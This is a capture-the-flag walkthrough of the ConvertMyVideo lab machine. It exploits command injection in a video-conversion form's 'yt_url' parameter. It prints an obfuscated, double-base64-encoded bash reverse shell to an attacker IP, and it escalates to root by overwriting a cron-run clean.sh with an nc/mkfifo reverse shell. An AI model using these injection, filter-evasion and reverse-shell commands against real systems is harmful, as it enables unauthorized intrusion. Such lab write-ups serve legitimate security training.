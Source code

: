 # ConvertMyVideo

## Nmap

```
sudo nmap 10.10.50.86 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelP
```

Port 80 lands us on a Youtube video conversion page.

![](<../../../.gitbook/assets/image (1077).png>)

Running feroxbuster against the target website produces only a few results. Of which only the /admin directory is interesting. The /admin directory uses a HTTP-basic-form and I was unable to crack using rockyou.txt with common user names such as 'admin'.

![](<../../../.gitbook/assets/image (1078) (1).png>)

Running a generic query does not produces anything interesting.

![](<../../../.gitbook/assets/image (1079).png>)

Running the search query through Burpsuite gives us the parameter 'yt\_url'.

![](<../../../.gitbook/assets/image (1080).png>)

Referring against this link we can try various command injection techniques for valid parameters.

{% embed url="https://book.hacktricks.xyz/pentesting-web/command-injection" %}

As per the link trying the following gives us a command injection result:

```
yt_url=ls||id;
```

![](<../../../.gitbook/assets/image (1082).png>)

Knowing we can inject commands we can attempt a reverse shell by running the command below in a terminal on our attacking machine then taking the output and using it in our command injection

```
echo "echo $(echo 'bash -i >& /dev/tcp/10.14.3.108/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
```

![](<../../../.gitbook/assets/image (1083).png>)

Then paste the output into Burpsuite:

![](<../../../.gitbook/assets/image (1084) (1).png>)

Once sent we should receive a reverse shell on the `netcat` listener.

![](<../../../.gitbook/assets/image (1085).png>)

After looking about the machine and running enumeration scripts I was unable to identify any points of escalation. I then decided to run [pspy64](https://github.com/DominicBreuker/pspy/releases) to see if anything is being executed on a regular basis.

After transferring and running we get the following results:

![](<../../../.gitbook/assets/image (1086) (1) (1) (1).png>)

Frequently the following is being run:

`/bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh`

From here I echo'd out the contents of clean.sh and replaced the contents with a `netcat` reverse shell.

```
echo  > clean.sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.3.108 4444 >/tmp/f' > clean.sh
```

Then set up a listener on port 4444 waited a few seconds and received a shell as root.

![](<../../../.gitbook/assets/image (1089).png>)
